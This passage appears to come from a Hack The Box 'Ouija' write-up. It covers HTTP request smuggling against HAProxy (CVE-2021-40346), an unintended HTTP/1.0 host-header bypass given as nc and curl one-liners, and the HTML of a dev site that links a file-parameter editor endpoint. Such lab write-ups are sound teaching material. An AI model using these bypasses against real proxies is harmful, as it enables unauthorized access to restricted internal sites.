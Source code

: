 #### HTTP Request Smuggling

We crafted a special HTTP request to smuggle to the Apache web server with the otherwise blacklisted host header value **dev.ouija.htb**. Immediately after sending this, we sent another request to fetch the backend response.

![CVE-2021-40346 PoC HTTP request](web-burp-smuggle.png)
_HTTP request to exploit CVE-2021-40346_

![CVE-2021-40346 PoC HTTP request response](web-burp-smuggle-response.png)
_Receive response for smuggled request_


### HAProxy Rule Bypass (Unintended)

Instead of exploiting CVE-2021-40346 to smuggle a specific host header past HAProxy, we can exclude the host header altogether when using **HTTP/1.0** instead of **HTTP/1.1** since version 1.0 does not require it. To inform the Apache server of the desired VHost without a host header, we simply pass a URL as the HTTP path (proxy style).

```zsh
# Access dev vhost with nc
nc -C ouija.htb 80 <<< $'GET http://dev.ouija.htb/ HTTP/1.0\n'

# Access dev vhost with cURL
alias curl_haproxy_bypass="curl -0H Host: --proxy1.0 ouija.htb:80"
curl_haproxy_bypass http://dev.ouija.htb
```
{:file="bryan@htb ➤ zsh" .nolineno}


### Development Site

References to `editor.php`{:.filepath} were found at the web index with the GET parameter _file_ set to either `app.js`{:.filepath} or `init.sh`{:.filepath}, likely pointing to files somewhere on disk.

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Ouija dev</title>
    <link rel="stylesheet" href="style.css">
  </head>
  <body>
    <h1>projects under development</h1>
    <ul>
      <li>
        <strong>Project Name:</strong> Api
        <br>
        <strong>Api Source Code:</strong>
        <a href="http://dev.ouija.htb/editor.php?file=app.js" target="_blank">app.js</a>
        <strong>Init File:</strong>
        <a href="http://dev.ouija.htb/editor.php?file=init.sh" target="_blank">init.sh</a>
      </li>
    </ul>
    <footer>
    &copy; 2023 ouija software
    </footer>
  </body>
</html>
```
{:file="http://dev.ouija.htb/" .nolineno}
